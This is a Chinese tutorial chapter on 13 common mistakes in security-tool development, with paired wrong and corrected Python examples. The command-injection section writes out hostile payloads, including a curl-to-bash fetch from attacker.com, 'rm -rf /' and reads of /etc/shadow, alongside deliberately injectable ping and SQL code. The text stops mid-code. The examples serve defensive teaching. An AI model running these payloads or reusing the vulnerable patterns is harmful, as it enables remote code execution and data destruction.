


# 常见误区

安全工具开发是一个充满陷阱的过程。即便经验丰富的开发者，也常常在不经意间犯下一些看似微小、实则致命的错误——轻则让工具效率低下、难以维护，重则让工具本身成为攻击面，甚至触犯法律红线。

本节系统梳理了安全工具开发中最常犯的13个误区，按 **设计与架构 → 安全性 → 性能与可维护性 → 发布与维护** 四个维度组织。每个误区都给出真实场景、典型错误代码、正确实现和深度分析，帮助你在开发过程中避开这些坑。


## 误区严重程度速查表

| 编号 | 误区 | 严重程度 | 影响范围 | 修复难度 |
|------|------|----------|----------|----------|
| 1 | 过度追求功能全面 | ⚠️ 中 | 项目失败率、开发周期 | 低（减法即可） |
| 2 | 忽略错误处理 | 🔴 高 | 工具稳定性、用户体验 | 中 |
| 3 | 硬编码配置 | ⚠️ 中 | 可维护性、安全性 | 低 |
| 4 | 单线程阻塞设计 | 🔴 高 | 执行效率、用户体验 | 中 |
| 5 | 工具本身有安全漏洞 | 🔴🔴 极高 | 安全信任、法律风险 | 中 |
| 6 | 明文存储敏感信息 | 🔴🔴 极高 | 数据泄露、安全事故 | 低 |
| 7 | 缺乏输入验证 | 🔴 高 | 注入攻击、数据污染 | 低 |
| 8 | 缺乏日志记录 | ⚠️ 中 | 问题排查、审计追溯 | 低 |
| 9 | 不做代码测试 | 🔴 高 | 代码质量、回归风险 | 中 |
| 10 | 忽略代码文档 | ⚠️ 中 | 团队协作、长期维护 | 低 |
| 11 | 不考虑跨平台兼容 | ⚠️ 中 | 用户覆盖面 | 中 |
| 12 | 忽视许可证和法律 | 🔴🔴 极高 | 法律责任、社区声誉 | 低 |
| 13 | 不做版本管理 | ⚠️ 中 | 协作效率、回滚能力 | 低 |

> **使用建议**：开发新工具时，先过一遍这张表。标红🔴🔴的误区（5、6、12）属于「一票否决」级别——即使其他方面做得再好，这些问题中的任何一个都可能导致工具完全不可用或引发法律纠纷。

---

## 一、设计与架构误区

### 1.1 误区一：过度追求功能全面

**表现**：在工具开发初期就试图实现所有可能的功能，导致项目范围无限扩大，最终烂尾。

**典型错误心态**：

```text
❌ 典型的功能清单膨胀过程：
v0.1：做一个端口扫描器就好
v0.2：加上服务识别吧
v0.3：再加上漏洞检测
v0.4：不如支持Web扫描
v0.5：还要支持分布式
v0.6：加个漂亮的GUI
v0.7：……项目烂尾了
```

这种「功能蔓延」（Feature Creep）在安全工具领域尤其普遍，因为安全问题本身就涉及面极广——网络层、应用层、协议层、业务逻辑层，每个方向都有做不完的事情。

**根本原因分析**：

- **范围管理缺失**：没有明确定义工具的边界——它要解决什么问题，不解决什么问题
- **完美主义陷阱**：总想做「终极工具」，忽略了每增加一个功能带来的复杂度增长是指数级的
- **对标焦虑**：看到 Nmap 支持这么多功能，SQLMap 这么强大，觉得自己的工具也应该一样
- **低估维护成本**：功能数量与维护成本不是线性关系。10个功能的维护成本可能是5个功能的4倍

**正确做法**：采用 MVP（Minimum Viable Product，最小可行产品）策略，分阶段迭代。


**以 SQL 注入检测工具为例的迭代路径**：

| 版本 | 范围 | 关键指标 | 预计周期 |
|------|------|----------|----------|
| v0.1 | 仅 MySQL Error-based 注入 | 对 10 个已知靶场 100% 检出 | 1-2 周 |
| v0.2 | 新增 Union-based + 常见数据库 | 支持 MySQL/PostgreSQL/SQL Server | 2-3 周 |
| v0.3 | 新增 Blind 注入（布尔+时间） | 支持 5 种注入技术 | 3-4 周 |
| v1.0 | 统一框架 + 报告导出 | 支持 JSON/HTML/Markdown 报告 | 2-3 周 |
| v2.0 | 插件系统 + WAF 绕过 | 社区可贡献检测插件 | 持续迭代 |

**关键原则**：

1. **80/20 法则**：先用 20% 的开发量覆盖 80% 的常见场景
2. **模块化设计**：功能模块之间通过清晰的接口通信，方便后续增删
3. **用户驱动**：让真实用户的反馈决定下一个版本做什么，而不是自己的想象
4. **功能冻结**：每个版本开发前明确功能范围，开发过程中不随意添加新需求

### 1.2 误区二：忽略错误处理

**表现**：代码中缺乏异常处理，工具在遇到网络超时、DNS 解析失败、响应异常等情况时直接崩溃。

**典型错误代码**：

```python
# ❌ 错误示例 — 极端脆弱的扫描函数
def scan_url(url):
    response = requests.get(url)          # 超时？崩溃
    if "error" in response.text:          # 响应为空？崩溃
        print("Found vulnerability")
    return response.json()                # 非 JSON？崩溃
```

**为什么安全工具必须特别重视错误处理？** 因为安全工具的运行环境天然是恶劣的：

- **目标不可控**：你扫描的目标可能随时宕机、返回随机数据、发送超大响应
- **网络不稳定**：跨国扫描、高并发场景下丢包和延迟是常态
- **对抗行为**：目标可能部署 WAF/IDS，故意返回畸形数据来干扰扫描器
- **边界情况极多**：重定向循环、编码异常、SSL 证书过期、DNS 缓存投毒……

在这些环境下，「没有错误处理」等于「随时可能崩溃」。

**完整错误处理方案**：

```python
# ✅ 正确示例 — 生产级 URL 扫描
import requests
import logging
import time
from requests.adapters import HTTPAdapter
from urllib3.util.retry import Retry

logger = logging.getLogger(__name__)

def create_robust_session(max_retries=3, timeout=10):
    """创建带自动重试的请求会话"""
    session = requests.Session()
    
    retry_strategy = Retry(
        total=max_retries,
        backoff_factor=1,                  # 重试间隔：1s, 2s, 4s
        status_forcelist=[429, 500, 502, 503, 504],
        allowed_methods=["HEAD", "GET", "POST", "OPTIONS"]
    )
    
    adapter = HTTPAdapter(max_retries=retry_strategy)
    session.mount("http://", adapter)
    session.mount("https://", adapter)
    
    # 全局默认超时
    session.timeout = timeout
    
    # 通用请求头（避免被识别为恶意爬虫）
    session.headers.update({
        "User-Agent": "SecurityScanner/1.0 (Authorized Testing)",
        "Accept": "text/html,application/json,*/*",
        "Accept-Encoding": "gzip, deflate",
    })
    
    return session

def safe_request(session, url, method="GET", **kwargs):
    """
    安全的 HTTP 请求封装
    
    Returns:
        requests.Response | None: 成功返回响应对象，失败返回 None
    """
    kwargs.setdefault("timeout", session.timeout)
    kwargs.setdefault("allow_redirects", True)
    kwargs.setdefault("verify", False)      # 安全测试场景常跳过证书验证
    
    try:
        response = session.request(method, url, **kwargs)
        
        # 处理响应编码问题
        if response.encoding is None:
            response.encoding = response.apparent_encoding or 'utf-8'
        
        # 限制响应体大小，防止内存耗尽（10MB）
        if len(response.content) > 10 * 1024 * 1024:
            logger.warning(f"Response too large ({len(response.content)} bytes), truncating: {url}")
            # 保留前 10MB
            response._content = response.content[:10 * 1024 * 1024]
        
        return response
        
    except requests.Timeout:
        logger.warning(f"Timeout after {kwargs.get('timeout')}s: {url}")
        return None
    except requests.ConnectionError as e:
        logger.warning(f"Connection failed: {url} — {e}")
        return None
    except requests.TooManyRedirects:
        logger.warning(f"Too many redirects: {url}")
        return None
    except requests.SSLError as e:
        logger.warning(f"SSL error: {url} — {e}")
        return None
    except requests.RequestException as e:
        logger.error(f"Request failed: {url} — {type(e).__name__}: {e}")
        return None
    except Exception as e:
        logger.error(f"Unexpected error for {url}: {type(e).__name__}: {e}")
        return None

# 使用示例
session = create_robust_session()
resp = safe_request(session, "https://example.com/vuln-test")
if resp is None:
    logger.error("Target unreachable, skipping")
```

**错误处理的设计原则**：

| 原则 | 说明 | 实践方式 |
|------|------|----------|
| 优雅降级 | 部分功能失败不影响整体运行 | try/except 隔离各功能模块 |
| 快速重试 | 瞬时故障自动恢复，永久故障快速放弃 | 指数退避 + 最大重试次数 |
| 详尽日志 | 每次失败都留下排查线索 | 区分 WARNING/ERROR 级别 |
| 资源保护 | 防止异常情况导致内存泄漏或文件句柄泄漏 | 使用 context manager、限制响应大小 |
| 返回约定 | 失败时返回 None 或空值，不抛出未处理的异常 | 调用方只需检查 `if result is None` |

### 1.3 误区三：硬编码配置

**表现**：将数据库连接信息、API 密钥、超时参数、扫描目标等直接写死在代码里。

**典型错误**：

```python
# ❌ 错误示例
def connect_to_database():
    host = "192.168.1.100"        # 写死的 IP，换环境就得改代码
    port = 3306
    user = "root"                 # 还用了 root 账号
    password = "password123"      # 明文密码
    database = "security_db"
    return mysql.connector.connect(host=host, port=port, user=user,
                                   password=password, database=database)
```

这个问题的危害远超表面：硬编码的配置意味着换一台机器就得改源码，而改过的源码如果被提交到 Git，密码就泄露了；如果忘了改，生产环境就跑在测试配置上。

**完整的配置管理方案**：

```python
# ✅ 正确示例 — 三层配置管理（优先级：环境变量 > 配置文件 > 默认值）
import yaml
import os
import logging
from pathlib import Path
from typing import Any, Optional

logger = logging.getLogger(__name__)

DEFAULT_CONFIG = {
    "scanner": {
        "timeout": 10,
        "retries": 3,
        "threads": 50,
        "max_response_size": 10 * 1024 * 1024,   # 10MB
    },
    "reporting": {
        "format": "json",
        "output_dir": "./reports",
    },
    "logging": {
        "level": "INFO",
        "file": None,
    }
}

class Config:
    """
    安全工具配置管理器
    
    支持三级配置覆盖：环境变量 > 配置文件 > 默认值
    敏感字段自动从环境变量读取，避免明文存储
    """
    
    # 需要从环境变量读取的敏感字段
    SENSITIVE_KEYS = {"password", "api_key", "secret", "token", "encryption_key"}
    
    def __init__(self, config_file: str = "config.yaml"):
        self.config = self._deep_copy(DEFAULT_CONFIG)
        
        # 第二层：从文件加载
        if os.path.exists(config_file):
            self._load_from_file(config_file)
            logger.info(f"Loaded config from {config_file}")
        else:
            logger.warning(f"Config file not found: {config_file}, using defaults")
        
        # 第一层：环境变量覆盖
        self._apply_env_overrides()
        
        # 安全检查
        self._check_sensitive_in_code()
    
    def _deep_copy(self, d: dict) -> dict:
        """简单深拷贝"""
        return {k: self._deep_copy(v) if isinstance(v, dict) else v
                for k, v in d.items()}
    
    def _load_from_file(self, path: str):
        """加载 YAML 配置文件"""
        try:
            with open(path, 'r', encoding='utf-8') as f:
                file_config = yaml.safe_load(f)
            if file_config and isinstance(file_config, dict):
                self._merge(self.config, file_config)
        except yaml.YAMLError as e:
            logger.error(f"Failed to parse config file: {e}")
    
    def _merge(self, base: dict, override: dict):
        """递归合并配置"""
        for key, value in override.items():
            if key in base and isinstance(base[key], dict) and isinstance(value, dict):
                self._merge(base[key], value)
            else:
                base[key] = value
    
    def _apply_env_overrides(self):
        """
        环境变量覆盖规则：
        SCANNER_TIMEOUT=30  →  scanner.timeout = 30
        DB_PASSWORD=xxx     →  database.password = xxx
        """
        env_prefix = "SCANNER_"
        for section in self.config:
            if isinstance(self.config[section], dict):
                for key in self.config[section]:
                    env_var = f"{env_prefix}{section.upper()}_{key.upper()}"
                    value = os.environ.get(env_var)
                    if value is not None:
                        # 自动类型转换
                        original = self.config[section][key]
                        if isinstance(original, int):
                            self.config[section][key] = int(value)
                        elif isinstance(original, float):
                            self.config[section][key] = float(value)
                        elif isinstance(original, bool):
                            self.config[section][key] = value.lower() in ('true', '1', 'yes')
                        else:
                            self.config[section][key] = value
                        logger.debug(f"Config override from env: {env_var}")
        
        # 通用环境变量覆盖（用于数据库密码等敏感信息）
        env_map = {
            "DB_HOST": ("database", "host"),
            "DB_PASSWORD": ("database", "password"),
            "API_KEY": ("api", "key"),
        }
        for env_var, (section, key) in env_map.items():
            value = os.environ.get(env_var)
            if value:
                if section not in self.config:
                    self.config[section] = {}
                self.config[section][key] = value
    
    def _check_sensitive_in_code(self):
        """检查配置文件中是否存在明文敏感信息"""
        for section in self.config:
            if isinstance(self.config[section], dict):
                for key, value in self.config[section].items():
                    if key.lower() in self.SENSITIVE_KEYS and isinstance(value, str):
                        if not value.startswith("${") and len(value) > 3:
                            logger.warning(
                                f"⚠️ Sensitive value detected in config: {section}.{key}. "
                                f"Consider using environment variable instead."
                            )
    
    def get(self, dotted_key: str, default: Any = None) -> Any:
        """获取配置项，支持点号分隔的路径：scanner.timeout"""
        keys = dotted_key.split('.')
        value = self.config
        for k in keys:
            if isinstance(value, dict):
                value = value.get(k)
                if value is None:
                    return default
            else:
                return default
        return value

# config.yaml 示例
CONFIG_EXAMPLE = """
# 安全工具配置文件
# 敏感信息请用环境变量注入，不要直接写在此文件中

scanner:
  timeout: 10
  retries: 3
  threads: 50
  max_response_size: 10485760  # 10MB

database:
  host: localhost
  port: 3306
  user: scanner_readonly       # 最小权限原则：只读账号
  password: ${DB_PASSWORD}      # 从环境变量读取
  database: security_db

reporting:
  format: json
  output_dir: ./reports
  include_raw_response: false

logging:
  level: INFO
  file: scanner.log
  max_size_mb: 50
  backup_count: 5
"""

# 使用示例
config = Config("config.yaml")
timeout = config.get("scanner.timeout", 10)
db_pass = config.get("database.password")
if db_pass is None:
    raise RuntimeError("DB_PASSWORD environment variable not set!")
```

### 1.4 误区四：单线程阻塞设计

**表现**：使用单线程顺序处理大量任务，导致工具效率极低。

**问题量化分析**：

```python
# ❌ 单线程端口扫描
def scan_ports_single(host, ports, timeout=1):
    open_ports = []
    for port in ports:
        sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        sock.settimeout(timeout)
        result = sock.connect_ex((host, port))
        if result == 0:
            open_ports.append(port)
        sock.close()
    return open_ports

# 扫描全端口（65535个）的耗时分析：
# 单线程：65535 × 1s = ~18.2 小时（最坏情况）
# 100线程：65535 × 1s / 100 = ~11 分钟
# 1000线程：65535 × 1s / 1000 = ~65 秒
```

18 小时 vs 65 秒——差距是 1000 倍。对于安全工具来说，扫描效率直接决定了你的产出。

**正确实现——多种并发模型对比**：

| 模型 | 适用场景 | 优势 | 劣势 |
|------|----------|------|------|
| 多线程 ThreadPool | I/O 密集型（网络扫描、Web 爬虫） | 简单易用、共享内存 | GIL 限制 CPU 密集型任务 |
| 多进程 ProcessPool | CPU 密集型（密码哈希计算、数据解析） | 绕过 GIL、真正并行 | 进程间通信开销大 |
| asyncio 协程 | 高并发 I/O（万级连接） | 极低内存开销、超高并发 | 需要异步生态、调试困难 |
| 混合模型 | 复杂场景 | 各取所长 | 架构复杂度高 |

```python
# ✅ 正确示例 — 三种并发模型的端口扫描器
import socket
import concurrent.futures
import asyncio
from typing import List, Set

# ==================== 模型1：ThreadPool（最常用） ====================

def scan_port_tcp(host: str, port: int, timeout: float = 1.0) -> int | None:
    """TCP connect 扫描单个端口，成功返回端口号，失败返回 None"""
    try:
        with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as sock:
            sock.settimeout(timeout)
            if sock.connect_ex((host, port)) == 0:
                return port
    except (socket.timeout, OSError):
        pass
    return None

def scan_with_threadpool(host: str, ports: List[int], max_workers: int = 200) -> List[int]:
    """
    ThreadPoolExecutor 并发扫描
    
    注意 max_workers 不是越大越好：
    - 太小：并发不足，扫描慢
    - 太大：文件描述符耗尽（ulimit -n 限制），连接被操作系统拒绝
    - 推荐：200-500，根据目标网络情况调整
    """
    open_ports = []
    with concurrent.futures.ThreadPoolExecutor(max_workers=max_workers) as executor:
        future_map = {
            executor.submit(scan_port_tcp, host, port): port
            for port in ports
        }
        for future in concurrent.futures.as_completed(future_map):
            result = future.result()
            if result is not None:
                open_ports.append(result)
    return sorted(open_ports)

# ==================== 模型2：asyncio（超高并发） ====================

async def async_scan_port(host: str, port: int, timeout: float = 1.0) -> int | None:
    """异步 TCP 连接扫描"""
    try:
        _, writer = await asyncio.wait_for(
            asyncio.open_connection(host, port),
            timeout=timeout
        )
        writer.close()
        await writer.wait_closed()
        return port
    except (asyncio.TimeoutError, OSError, ConnectionRefusedError):
        return None

async def scan_with_asyncio(host: str, ports: List[int], semaphore_limit: int = 500) -> List[int]:
    """
    asyncio 并发扫描
    
    用 Semaphore 控制并发数，防止瞬间创建太多连接
    """
    semaphore = asyncio.Semaphore(semaphore_limit)
    
    async def limited_scan(port):
        async with semaphore:
            return await async_scan_port(host, port)
    
    tasks = [limited_scan(port) for port in ports]
    results = await asyncio.gather(*tasks, return_exceptions=True)
    return sorted([r for r in results if isinstance(r, int)])

# ==================== 使用示例 ====================

def main():
    host = "192.168.1.1"
    target_ports = list(range(1, 1025))  # 前1024个端口
    
    # 方式1：ThreadPool（推荐大多数场景）
    open_ports = scan_with_threadpool(host, target_ports, max_workers=200)
    print(f"Open ports (ThreadPool): {open_ports}")
    
    # 方式2：asyncio（超大规模扫描）
    # open_ports = asyncio.run(scan_with_asyncio(host, target_ports))

if __name__ == "__main__":
    main()
```

**并发安全注意事项**：

1. **文件描述符限制**：Linux 默认 ulimit -n = 1024，高并发扫描前务必调大
   ```bash
   ulimit -n 65535          # 临时生效
   # /etc/security/limits.conf 永久生效
   ```
2. **线程安全的共享数据**：用 `threading.Lock` 保护共享列表，或用 `queue.Queue` 做线程安全的生产者-消费者模型
3. **速率控制**：过快的扫描可能触发目标 WAF/IDS 封禁你的 IP，需要实现可配置的速率限制
4. **资源清理**：使用 `with` 语句确保 socket 连接被正确关闭

---

## 二、安全性误区

### 2.1 误区五：工具本身存在安全漏洞

**表现**：安全工具的代码本身存在安全问题——命令注入、路径遍历、XML 外部实体（XXE）、反序列化漏洞等。

**这是一个讽刺但极其常见的现象**：安全工具本应是防御者，结果自己成了攻击面。历史上多起安全事件都源于安全工具本身的漏洞——Metasploit 框架曾被发现远程代码执行漏洞，Burp Suite 的某些扩展存在反序列化问题。

**典型错误——命令注入**：

```python
# ❌ 错误示例 — 命令注入漏洞
def ping_host(host):
    # 直接拼接用户输入到系统命令中
    command = f"ping -c 1 {host}"
    result = os.popen(command).read()   # 灾难！
    return result

# 攻击者输入：
# host = "127.0.0.1; cat /etc/passwd"
# 实际执行: ping -c 1 127.0.0.1; cat /etc/passwd

# 或者更隐蔽的：
# host = "127.0.0.1$(curl attacker.com/shell.sh|bash)"
# 实际执行: ping -c 1 127.0.0.1$(curl attacker.com/shell.sh|bash)
```

**命令注入的完整攻击面**：

| 攻击手法 | payload 示例 | 危害 |
|----------|-------------|------|
| 分号分隔 | `127.0.0.1; rm -rf /` | 执行任意命令 |
| 管道 | `127.0.0.1 \| cat /etc/shadow` | 管道到恶意命令 |
| 反引号 | `` `whoami` `` | 命令替换 |
| `$()` | `$(curl attacker.com/backdoor)` | 命令替换 |
| 换行符 | `127.0.0.1%0aroot:x` | 绕过简单过滤 |

**安全实现方案**：

```python
# ✅ 正确示例 — 三层防御
import subprocess
import shlex
import ipaddress
import re
from typing import Optional

def validate_host(host: str) -> bool:
    """
    严格的主机地址验证
    
    只允许：
    - IPv4 地址（192.168.1.1）
    - IPv6 地址（::1、fe80::1）
    - 合法域名（www.example.com）
    
    拒绝：包含 shell 特殊字符的任何输入
    """
    # 白名单：只允许字母数字、点、冒号、连字符、方括号（IPv6）
    if re.search(r'[^a-zA-Z0-9.\-:\[\]]', host):
        return False
    
    # 尝试作为 IP 解析
    try:
        ipaddress.ip_address(host)
        return True
    except ValueError:
        pass
    
    # 尝试作为合法域名解析
    domain_pattern = r'^[a-zA-Z0-9]([a-zA-Z0-9\-]{0,61}[a-zA-Z0-9])?(\.[a-zA-Z0-9]([a-zA-Z0-9\-]{0,61}[a-zA-Z0-9])?)*\.[a-zA-Z]{2,}$'
    return bool(re.match(domain_pattern, host))

def safe_ping(host: str, count: int = 1, timeout: int = 2) -> Optional[str]:
    """
    安全的 ping 操作
    
    防御措施：
    1. 输入白名单验证
    2. 参数列表传递（不经过 shell 解释）
    3. 超时控制
    4. 输出截断
    """
    if not validate_host(host):
        raise ValueError(f"Invalid host format: {host}")
    
    if not (1 <= count <= 10):
        raise ValueError(f"Count must be 1-10, got {count}")
    
    # 关键：列表形式传递参数，完全绕过 shell 解释器
    cmd = ['ping', '-c', str(count), '-W', str(timeout), host]
    
    try:
        result = subprocess.run(
            cmd,
            capture_output=True,
            text=True,
            timeout=timeout * count + 5,  # 给 subprocess 自己的超时
        )
        return result.stdout
    except subprocess.TimeoutExpired:
        return None
    except FileNotFoundError:
        raise RuntimeError("ping command not found — is it installed?")
```

**除了命令注入，安全工具还需防御**：

| 漏洞类型 | 攻击方式 | 防御措施 |
|----------|----------|----------|
| 路径遍历 | `../../etc/passwd` 作为文件名 | 用 `os.path.realpath()` + 白名单目录检查 |
| XXE 注入 | 恶意 XML 的 SYSTEM 实体引用 | 用 `defusedxml` 替代标准 xml 库 |
| 反序列化 | 恶意 pickle/YAML 数据 | 禁用 pickle 反序列化，用 `yaml.safe_load` |
| SSRF | 工具被诱导访问内网地址 | 用 IP 黑名单/白名单过滤目标地址 |
| 格式化字符串 | `%s` / `{}` 格式化用户输入 | 始终使用参数化，不拼接用户输入到格式串 |

### 2.2 误区六：明文存储敏感信息

**表现**：在代码或配置文件中明文存储密码、API 密钥、Token 等敏感信息。

**真实事故案例**：

```text
# 某安全团队的内部扫描器源码（从 GitHub 上找到的）：
API_KEY = "sk-proj-abc123..."              # OpenAI API Key
SHODAN_API_KEY = "aBcDeFgHiJkLmNoPqR"      # Shodan API Key
FIREBASE_CRED = {"type":"service_account"...} # GCP 凭据
# 以上全部被提交到了公开仓库 🤦
```

仅在 GitHub 上搜索 `sk-`、`api_key =`、`password =` 就能找到数以万计的泄露密钥。根据 GitHub 2023 年的安全报告，每月有超过 100 万个有效的 API 密钥被意外提交到公开仓库。

**正确的敏感信息管理**：

```python
# ✅ 正确示例 — 分层密钥管理
import os
from pathlib import Path
from typing import Optional

# ==================== 方案1：环境变量（最简单，推荐） ====================

def get_api_key(service: str) -> str:
    """
    从环境变量获取 API 密钥
    
    使用约定：
    - 服务名大写 + 下划线分隔
    - 敏感信息加 _KEY / _SECRET / _TOKEN 后缀
    """
    env_var = f"{service.upper()}_API_KEY"
    key = os.environ.get(env_var)
    if not key:
        raise EnvironmentError(
            f"Missing {env_var}. Set it with:\n"
            f"  export {env_var}=your-key-here\n"
            f"Or add to .env file (must be in .gitignore)"
        )
    return key

# ==================== 方案2：.env 文件（本地开发） ====================

def load_dotenv(env_file: str = ".env"):
    """加载 .env 文件到环境变量（不覆盖已存在的变量）"""
    path = Path(env_file)
    if not path.exists():
        return
    
    with open(path, 'r', encoding='utf-8') as f:
        for line in f:
            line = line.strip()
            if not line or line.startswith('#'):
                continue
            if '=' in line:
                key, _, value = line.partition('=')
                key = key.strip()
                value = value.strip().strip('"').strip("'")
                # 不覆盖已存在的环境变量（优先级：系统 > .env）
                os.environ.setdefault(key, value)

# ==================== 方案3：密钥文件（生产环境） ====================

def load_secret_from_file(secret_name: str) -> str:
    """
    从密钥文件读取（适用于 Docker Secrets、K8s Secrets 等）
    密钥文件通常挂载在 /run/secrets/ 或 /etc/secrets/
    """
    secret_paths = [
        f"/run/secrets/{secret_name}",
        f"/etc/secrets/{secret_name}",
        os.path.expanduser(f"~/.secrets/{secret_name}"),
    ]
    
    for path in secret_paths:
        if os.path.isfile(path):
            with open(path, 'r') as f:
                return f.read().strip()
    
    raise FileNotFoundError(
        f"Secret '{secret_name}' not found in any of: {secret_paths}"
    )

# ==================== .gitignore 配置 ====================

GITIGNORE_CONTENT = """
# 敏感信息文件 — 永远不要提交
.env
.env.*
*.pem
*.key
*.p12
credentials.json
service-account.json
secrets/

# 配置文件中可能包含密钥
config.yaml
config.yml
config.local.*
"""
```

### 2.3 误区七：缺乏输入验证

**表现**：不对外部输入进行验证和清理，直接用于 SQL 查询、命令执行或文件操作。

**典型错误——SQL 注入**：

```python
# ❌ 错误示例
def search_vulnerabilities(keyword, db):
    query = f"SELECT * FROM vulns WHERE name LIKE '%{keyword}%'"
    # keyword = "'; DROP TABLE vulns; --" → 整张表被删
    cursor = db.cursor()
    cursor.execute(query)
    return cursor.fetchall()
```

**安全实现**：

```python
# ✅ 正确示例 — 输入验证 + 参数化查询
import re
import html
from typing import List, Dict, Any

# ==================== 输入验证层 ====================

class InputValidator:
    """通用输入验证器"""
    
    @staticmethod
    def validate_search_keyword(keyword: str, max_length: int = 100) -> str:
        """验证并清理搜索关键词"""
        if not keyword or not isinstance(keyword, str):
            raise ValueError("Search keyword cannot be empty")
        
        keyword = keyword.strip()
        if len(keyword) > max_length:
            raise ValueError(f"Keyword exceeds max length ({max_length})")
        
        # 白名单：只允许安全字符
        if not re.match(r'^[a-zA-Z0-9\s\-_\.]+$', keyword):
            raise ValueError(f"Keyword contains invalid characters: {keyword}")
        
        return keyword
    
    @staticmethod
    def validate_target_url(url: str) -> str:
        """验证目标 URL"""
        from urllib.parse import urlparse
        
        parsed = urlparse(url)
        
        # 只允许 http/https 协议
        if parsed.scheme not in ('http', 'https'):
            raise ValueError(f"Unsupported protocol: {parsed.scheme}")
        
        # 禁止访问内网地址（防止 SSRF）
        import ipaddress
        try:
            ip = ipaddress.ip_address(parsed.hostname)
            if ip.is_private or ip.is_loopback or ip.is_reserved:
                raise ValueError(f"Internal addresses not allowed: {parsed.hostname}")
        except ValueError as e:
            if "not allowed" in str(e):
                raise
            # hostname 不是 IP，是域名，进一步验证
        
        if not parsed.hostname:
            raise ValueError("URL must have a hostname")
        
        return url
    
    @staticmethod
    def sanitize_output(text: str) -> str:
        """清理输出内容，防止 XSS（适用于 HTML 报告）"""
        return html.escape(str(text))

# ==================== 安全查询层 ====================

def search_vulnerabilities(keyword: str, db) -> List[Dict[str, Any]]:
    """安全的漏洞搜索"""
    # 第一步：验证输入
    clean_keyword = InputValidator.validate_search_keyword(keyword)
    
    # 第二步：参数化查询（绝不拼接字符串）
    query = "SELECT * FROM vulns WHERE name LIKE %s"
    cursor = db.cursor()
    cursor.execute(query, (f'%{clean_keyword}%',))
    
    # 第三步：格式化输出
    columns = [desc[0] for desc in cursor.description]
    return [dict(zip(columns, row)) for row in cursor.fetchall()]
```

**输入验证的分层架构**：



---

## 三、性能与可维护性误区

### 3.1 误区八：缺乏日志记录

**表现**：工具运行时没有适当的日志输出，出问题时无法排查，用户也不知道工具在干什么。

**为什么日志在安全工具中特别重要？**

安全工具往往在「无人值守」的模式下长时间运行——半夜启动的批量扫描、CI/CD 中集成的自动化测试、定时运行的漏洞巡检。当这些任务出问题时，如果没有日志，你只能看到「工具挂了」，却完全不知道为什么挂的。

**完整的日志方案**：

```python
# ✅ 生产级日志系统
import logging
import logging.handlers
import sys
import os
from datetime import datetime

class ToolLogger:
    """
    安全工具日志管理器
    
    支持：
    - 控制台输出（彩色高亮）
    - 文件轮转（防止单个日志文件过大）
    - 审计日志（记录所有敏感操作）
    - 上下文信息（扫描目标、任务 ID 等）
    """
    
    def __init__(self, name: str, log_file: str = None,
                 log_level: int = logging.INFO,
                 max_bytes: int = 10 * 1024 * 1024,  # 10MB
                 backup_count: int = 5):
        
        self.logger = logging.getLogger(name)
        self.logger.setLevel(log_level)
        self.logger.handlers.clear()  # 防止重复添加
        
        # 格式
        detailed_fmt = logging.Formatter(
            '%(asctime)s | %(levelname)-8s | %(name)s | %(message)s',
            datefmt='%Y-%m-%d %H:%M:%S'
        )
        
        # 控制台处理器
        console = logging.StreamHandler(sys.stdout)
        console.setLevel(log_level)
        console.setFormatter(detailed_fmt)
        self.logger.addHandler(console)
        
